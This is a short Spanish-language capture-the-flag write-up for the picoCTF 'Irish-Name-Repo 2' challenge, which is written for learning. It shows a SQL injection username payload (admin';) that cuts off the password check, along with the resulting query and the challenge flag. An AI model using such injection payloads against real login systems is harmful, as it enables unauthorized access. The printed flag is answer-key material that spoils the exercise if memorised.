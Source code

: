 ## Irish-Name-Repo 2 

### Objetivos 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

### Pistas
The password is being filtered.

### Solución 
- activamos el campo de debug desde las herramientas de desarrollador para ver las sentencias sql.

- la anterior inyeccion no funciona así que usaremos una diferente
pondremos usuario admin y cerramos el apostrofe y ponemos punto y coma para cerrar la sentencia y que ignore la contraseña.

``` bash
username: admin'; 
password:
SQL query: SELECT * FROM users WHERE name='admin'; AND password=''

---

# Logged in!
Your flag is: picoCTF{m0R3_SQL_plz_c34df170}

```

### Notas adicionales:


### Referencias:
sql injection: https://www.imperva.com/learn/application-security/sql-injection-sqli/#:~:text=SQL%20injection%2C%20also%20known%20as,not%20intended%20to%20be%20displayed.
